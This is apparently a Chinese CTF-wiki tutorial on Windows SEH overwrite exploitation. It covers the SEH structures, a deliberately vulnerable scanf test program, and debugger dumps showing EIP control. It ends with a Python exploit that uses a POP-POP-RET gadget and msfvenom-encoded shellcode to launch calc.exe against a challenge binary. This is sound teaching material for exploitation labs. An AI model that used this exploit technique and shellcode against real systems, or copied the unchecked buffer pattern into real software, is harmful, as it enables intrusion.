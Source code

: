 ## Instruction
结构化异常处理（SEH）是一种 Windows 机制，用于一致地处理硬件和软件异常。该结构通常表示为 try / except或try / catch 代码块。
```C
__try {
    // the block of code to try (aka the "guarded body")
    ...
}
__except (exception filter) {
    // the code to run in the event of an exception (aka the "exception handler)
    ...
}
```
异常处理程序可以由应用程序（通过上述 __try / __ except 构造）或由操作系统本身实现。由于错误的类型很多（除零，超出范围等），因此可以有许多相应的异常处理程序。

不论在何处定义异常处理程序（应用程序与操作系统），还是设计异常处理程序的类型，所有处理程序均由 Windows SEH 通过指定数据结构和函数的集合进行集中统一管理。

## SEH的主要组成部分
对于每个异常处理程序，都有一个 Exception Registration Record 结构，如下所示：
```C
typedef struct _EXCEPTION_REGISTRATION_RECORD { 
    struct _EXCEPTION_REGISTRATION_RECORD *Next; 
    PEXCEPTION_ROUTINE Handler; 
} EXCEPTION_REGISTRATION_RECORD, *PEXCEPTION_REGISTRATION_RECORD;
```
这些 Exception Registration Record 使用链表的结构连接在一起 。其中的第一个字段（*Next）是指向SEH链中下一个 _EXCEPTION_REGISTRATION_RECORD 的指针。换句话说，可以使用 *Next 从上到下浏览 SEH 链。第二个字段（Handler）是指向异常处理函数的指针，该函数如下所示：
```C
EXCEPTION_DISPOSITION 
__cdecl _except_handler(
    struct _EXCEPTION_RECORD *ExceptionRecord,
    oid EstablisherFrame,
    struct _CONTEXT *ContextRecord,
    void * DispatcherContext
);
```
第一个函数参数是指向 _EXCEPTION_RECORD 结构的指针。该结构包含有关给定异常的信息，包括异常代码，异常地址和参数数量。

_except_handler 函数使用这些信息，以确定异常是否可以由当前异常处理函数处理，或者它需要移交到下一个 Exception Registration Record 进行处理。
![SEH_Chain](./figure/SEH_Chain.jpg)

## 利用SEH
在 SEH 下，直接覆盖 SEH_Handler 字段，然后触发异常后，就可以直接控制程序的执行流。测试程序代码（使用VS2017命令行编译）：
```C
// cl SEH_Chain.c /GS- /DYNAMICBASE:NO /link /FIXED
int vul()
{
    char s[0x20] = {0};
    __try
    {
        scanf("%s",s);
    }
    __except(EXCEPTION_EXECUTE_HANDLER)
    {
        puts("GG");
    }        
    return 0;
}

int main(int argc, char **argv)
{
    puts("Welcome!");
    vul();
    return 0;
}
```
未修改的SEH链：
```
地址       异常处理例程   模块/标签     注释
0019FF60    00401E10    seh_chain 
0019FFCC    77A79F80    ntdll     
0019FFE4    77A88F07    ntdll     
```
栈空间：
```
0019FF60  0019FFCC  指向SEH_Record[1]的指针
0019FF64  00401E10  seh_chain.00401E10
0019FF68  E1C62A0A  
0019FF6C  00000000  
0019FF70  0019FF80  
0019FF74  76036359  返回到 kernel32.76036359 自 ???
0019FF78  00379000  
0019FF7C  76036340  kernel32.76036340
0019FF80  0019FFDC  
0019FF84  77A67B74  返回到 ntdll.77A67B74 自 ???
0019FF88  00379000  
0019FF8C  E03A396D  
0019FF90  00000000  
0019FF94  00000000  
0019FF98  00379000  
0019FF9C  00000000  
0019FFA0  00000000  
0019FFA4  00000000  
0019FFA8  00000000  
0019FFAC  00000000  
0019FFB0  00000000  
0019FFB4  00000000  
0019FFB8  00000000  
0019FFBC  00000000  
0019FFC0  00000000  
0019FFC4  0019FF8C  
0019FFC8  00000000  
0019FFCC  0019FFE4  指向SEH_Record[2]的指针
0019FFD0  77A79F80  ntdll.77A79F80
```
可以很清晰的看到SEH链的存在。scanf覆盖之后的SEH链：
```
地址       异常处理例程   模块/标签 注释
0019FF10    42424242  
42424242    00000000  
```
处理例程和下个SEH结构的位置都已经被修改。尝试输入大量数据以触发异常：
```python
python -c "print 'A'*0x28 + 'B'*8 + 'A'*0x200"
```
触发异常后的寄存器：
```
EAX : 00000000
EBX : 00000000
ECX : 42424242
EDX : 77A88DC0     ntdll.77A88DC0
EBP : 0019F0D8
ESP : 0019F0B8
ESI : 00000000
EDI : 00000000
EIP : 42424242
EFLAGS : 00010246
```
可以看到，EIP已经被控制到了输入的 BBBB(42424242) 处，从而控制了程序的执行流。
## SEH的常用利用方式
[attachment here](https://github.com/ctf-wiki/ctf-challenges/blob/master/pwn/stackoverflow/windows/SEH_Chain_VC6.exe)

EIP被控制后的栈空间：
```
0019F0B8  77A88DA2  返回到 ntdll.77A88DA2 自 ???
0019F0BC  0019F1B8  
0019F0C0  0019FF10  "BBBBBBBBAAAAAAAAAAAAAAAAA... "
0019F0C4  0019F208  
0019F0C8  0019F144  &"BBBBBBBBAAAAAAAAAAAAAAAA... "
0019F0CC  0019F6FC  指向SEH_Record[1]的指针
0019F0D0  77A88DC0  ntdll.77A88DC0
0019F0D4  0019FF10  "BBBBBBBBAAAAAAAAAAAAAAAAA..."
0019F0D8  0019F1A0  
```
可以看到 ESP+0x8 处的地址正好指向触发异常的 SEH 的结构处，当程序未开启 DEP 时，可以通过 POP+POP+RET 的方式，执行到 ShellCode 上。寻找一个 gadget：（x32dbg ->右击->搜索->所有模块->命令，或者其他方法寻找）
```asm
0040292A | 5E | pop esi |
0040292B | 5B | pop ebx |
0040292C | C3 | ret     |
```
编写一个EXP：
```python
from pwintools import *
import struct

def p32(addr):
    return struct.pack("<I",addr)

pop_pop_ret = 0x0040136F

p = Process("./SEH_Chain_VC6.exe")

# msfvenom -p windows/exec CMD=calc.exe -e x86/shikata_ga_nai -b '\x09\x0a\x0b\x0c\x0d\x1a\x20' -f python
buf =  ""
buf += "\xb8\xb6\xc7\xe5\xf9\xda\xdb\xd9\x74\x24\xf4\x5d\x29"
buf += "\xc9\xb1\x31\x83\xed\xfc\x31\x45\x0f\x03\x45\xb9\x25"
buf += "\x10\x05\x2d\x2b\xdb\xf6\xad\x4c\x55\x13\x9c\x4c\x01"
buf += "\x57\x8e\x7c\x41\x35\x22\xf6\x07\xae\xb1\x7a\x80\xc1"
buf += "\x72\x30\xf6\xec\x83\x69\xca\x6f\x07\x70\x1f\x50\x36"
buf += "\xbb\x52\x91\x7f\xa6\x9f\xc3\x28\xac\x32\xf4\x5d\xf8"
buf += "\x8e\x7f\x2d\xec\x96\x9c\xe5\x0f\xb6\x32\x7e\x56\x18"
buf += "\xb4\x53\xe2\x11\xae\xb0\xcf\xe8\x45\x02\xbb\xea\x8f"
buf += "\x5b\x44\x40\xee\x54\xb7\x98\x36\x52\x28\xef\x4e\xa1"
buf += "\xd5\xe8\x94\xd8\x01\x7c\x0f\x7a\xc1\x26\xeb\x7b\x06"
buf += "\xb0\x78\x77\xe3\xb6\x27\x9b\xf2\x1b\x5c\xa7\x7f\x9a"
buf += "\xb3\x2e\x3b\xb9\x17\x6b\x9f\xa0\x0e\xd1\x4e\xdc\x51"
buf += "\xba\x2f\x78\x19\x56\x3b\xf1\x40\x3c\xba\x87\xfe\x72"
buf += "\xbc\x97\x00\x22\xd5\xa6\x8b\xad\xa2\x36\x5e\x8a\x5d"
buf += "\x7d\xc3\xba\xf5\xd8\x91\xff\x9b\xda\x4f\xc3\xa5\x58"
buf += "\x7a\xbb\x51\x40\x0f\xbe\x1e\xc6\xe3\xb2\x0f\xa3\x03"
buf += "\x61\x2f\xe6\x67\xe4\xa3\x6a\x46\x83\x43\x08\x96"

payload = ""
payload += "\x90"*0x28
payload += "\xEB\x14\x90\x90" # asm("jmp $+22")
payload += p32(pop_pop_ret)
payload += "\x90"*0x20
payload += buf
payload = payload.ljust(0x200,"\x90")

raw_input()
p.sendline(payload)
raw_input()
```
执行exp后，将会弹出一个计算器。

